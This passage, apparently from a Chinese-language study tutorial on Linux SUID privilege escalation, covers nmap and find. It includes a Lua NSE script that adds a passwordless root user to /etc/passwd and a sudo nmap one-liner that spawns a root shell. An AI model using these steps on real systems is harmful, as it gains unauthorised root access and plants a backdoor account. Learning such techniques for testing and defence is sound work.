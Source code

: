 另外Metasploit也有nmap提权的模块：`exploit/unix/local/setuid_nmap`

#### 3.1.2 nmap高版本

namp在高版本取消了交互模式，可编写nmap的nse脚本，修改`/etc/passwd`来新增一个用户root2来达到提权的目的。

```lua
local file = io.open("/etc/passwd", "a")
file:write("root2::0:0::/root:/bin/bash\n")
file:close()
```

![image-20210626174624539](suid提权学习/image-20210626174624539.png)

若namp可直接sudo执行，则可直接使用nse脚本调用`os.execute`执行命令

```shell
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```

### 3.2 find

```shell
touch test
find test -exec whoami \;
```

![image-20210627125229567](suid提权学习/image-20210627125229567.png)
